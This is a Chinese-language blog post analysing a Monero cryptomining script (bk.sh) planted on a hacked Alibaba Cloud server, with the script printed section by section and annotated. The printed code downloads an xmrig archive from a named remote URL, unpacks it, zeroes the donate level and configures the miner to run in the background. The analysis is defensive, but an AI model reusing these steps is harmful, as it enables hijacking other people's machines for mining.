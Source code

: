 # 记上次黑客入侵阿里云主机 —— 代码分析（中）

已将问题反馈到阿里云安全团队客服，并向阿里云中心举报其地址。接下来是代码分析。(bk.sh)


## bk.sh，推测是靶机脚本(if及json部分)

### 第一层 if

参考信息源：

* [百度知道-Linux shell 脚本 $(id -u) 是什么意思？](https://zhidao.baidu.com/question/944658594109817212.html)
* [bbsmax-shell if判断中常用的a-z表达式含义](https://www.bbsmax.com/A/8Bz81Qa6Jx/)
* [linux 环境变量设置 -d,Linux环境变量的设置](https://blog.csdn.net/weixin_35565522/article/details/116774198)
* [Shell中的exit 0 和 exit 1是做什么的?](https://www.pianshen.com/article/37962128580/)
* [博客园-shell中的type命令](https://www.cnblogs.com/chaoguo1234/p/5723531.html)
* [Linux /dev/null详解](https://www.shuzhiduo.com/A/6pdDP9ALdw/)


```
#-----
# 判断是不是root权限
if [ "$(id -u)" == "0" ]; then
  echo ""
fi
#----
# 这部分是判断环境配置准备

# “-z 长度为零则为真”，做一个逆向判断，就是找不到这个目录，打印"请将home环境定义到主目录"。 
if [ -z $HOME ]; then
  echo "ERROR: Please define HOME environment variable to your home directory"
# 异常退出，debug检测的。
  exit 1
fi
# 检查是否有家目录，没有则提示导入，引入家目录环境变量
if [ ! -d $HOME ]; then
  echo "ERROR: Please make sure HOME directory $HOME exists or set it yourself using this command:"
  echo 'export HOME=<dir>'
  exit 1
fi

# 找不到curl命令定义，则丢入黑洞，跳出
if ! type curl >/dev/null; then
  echo "ERROR: This script requires \"curl\" utility to work correctly"
  exit 1
fi

# `sudo -n true 2`返回“一个密码请求”的定义信息
# if ! sudo -n true 2>/dev/null; then
#  if ! pidof systemd >/dev/null; then
#    echo "ERROR: This script requires systemd to work correctly"
#    exit 1
#  fi
# 看起来是调用（CPU几个核心数*7/10），如果为0，跳出。
CPU_THREADS=$(nproc)
EXP_MONERO_HASHRATE=$(( CPU_THREADS * 700 / 1000))
if [ -z $EXP_MONERO_HASHRATE ]; then
  echo "ERROR: Can't compute projected Monero CN hashrate"
  exit 1
fi
```

以上这echo所打印的报错信息，基本也说明主机不能正常使用，这对他们黑客而言，已经没有任何价值了。如果这些正常的话，则运行下载好的挖矿脚本，以及其专用的挖矿程序。然后又是层层的if环境检验。

### 第二层 if

参考信息源：

* [入门小站-linux之curl命令](https://zhuanlan.zhihu.com/p/519406107)
* [sed -i 命令入门详解](https://blog.csdn.net/h4241778/article/details/125263518)
* [XMR恶意挖矿案例简析](https://www.sohu.com/a/260504074_354899)
* [诱捕黑客的蜜罐系统](https://baijiahao.baidu.com/s?id=1706341262655959831)
* [linux应用之test命令详细解析](https://www.cnblogs.com/tankblog/p/6160808.html)
* [Shell脚本中$0、$?、$!、$$、$*、$#、$@等的意义以及linux命令执行返回值代表意义](https://blog.csdn.net/helloxiaozhe/article/details/80940066)


```
# curl -L --progress-bar 显示网页内容与进度条，存在异常则直接中断退出。
if ! curl -L --progress-bar "https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/xmrig.tar.gz" -o /tmp/xmrig.tar.gz; then
  echo "ERROR: Can't download https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/xmrig.tar.gz file to /tmp/xmrig.tar.gz"
  echo ""
  exit 1
fi

#  不能正常解压缩，退出删除文件
if ! tar xf /tmp/xmrig.tar.gz -C $HOME/c3pool --strip=1; then
    echo ""
	echo ""
  fi
  rm /tmp/xmrig.tar.gz

# 使用正则，看上去是为了替换掉原有的config.json的donate-level的数值。
  sed -i 's/"donate-level": *[^,]*,/"donate-level": 0,/' $HOME/c3pool/config.json
  $HOME/c3pool/xmrig --help >/dev/null
  # $? 最后命令的退出状态的返回值。0表示没有错误，其他任何值表明有错误。
  #   # 比较，不等于0，再检验下xmrig还是不是文件，是就打印换行，否则跳出。
  if (test $? -ne 0); then 
    if [ -f $HOME/c3pool/xmrig ]; then
      echo ""
	  echo ""
    else 
      echo ""
	  echo ""
    fi
    exit 1
  fi
fi
```

### 推测其意，做环境判断之后，用正则配置json

参考信息源：

* [百度知道-Linux下面这条命令能逐个解释一下吗:cat /etc/passwd |cut -f 1 -d ](https://zhidao.baidu.com/question/555970944.html)
* [博客园-Linux命令之cut](https://www.cnblogs.com/zhoujingyu/p/4948051.html)
* [csdn-linux中的sed参数,sed一些参数的用法](https://blog.csdn.net/weixin_39891317/article/details/116855981)
* [linux 抽取ip地址,Linux bash脚本提取IP地址](https://blog.csdn.net/weixin_36371924/article/details/116767805)
* [linux中awk命令详解(最全面秒懂）](https://www.cnblogs.com/zhengyan6/p/16290156.html)

指令逐条解释

* `hostname | cut -f1 -d"."` 将hostname的输出结果，传递给cut，以“.”切割分段行显示
* `sed -r 's/[^a-zA-Z0-9\-]+/_/g'` 删除所有特殊字符(除了数字以及大小写字母)。
* `ip route get 1` 返回路由条目，包括IP、网关、uid。
* `awk '{print $NF;exit}'` 对内容空格分段。

```
PASS=`hostname | cut -f1 -d"." | sed -r 's/[^a-zA-Z0-9\-]+/_/g'`
if [ "$PASS" == "localhost" ]; then
# 测试这条命令输出为0
  PASS=`ip route get 1 | awk '{print $NF;exit}'`
fi
# 推测是配置json账户信息
if [ -z $PASS ]; then
  PASS=na
fi
if [ ! -z $EMAIL ]; then
  PASS="$PASS:$EMAIL"
fi
```

将json拷贝一份，作为后台文件，再用sed配置成后台运行。

```
cp $HOME/c3pool/config.json $HOME/c3pool/config_background.json
sed -i 's/"background": *false,/"background": true,/' $HOME/c3pool/config_background.json
```

